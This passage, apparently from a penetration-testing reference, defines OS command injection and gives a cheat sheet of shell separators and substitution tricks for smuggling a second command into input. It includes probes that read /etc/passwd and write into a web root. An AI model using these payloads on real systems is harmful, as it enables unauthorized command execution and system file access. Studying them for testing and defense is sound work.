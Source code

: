 # Command Injection

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Use [**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) to easily build and **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## What is command Injection?

A **command injection** permits the execution of arbitrary operating system commands by an attacker on the server hosting an application. As a result, the application and all its data can be fully compromised. The execution of these commands typically allows the attacker to gain unauthorized access or control over the application's environment and underlying system.

### Context

Depending on **where your input is being injected** you may need to **terminate the quoted context** (using `"` or `'`) before the commands.

## Command Injection/Execution
```bash
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```
### **QaD** Bypasses
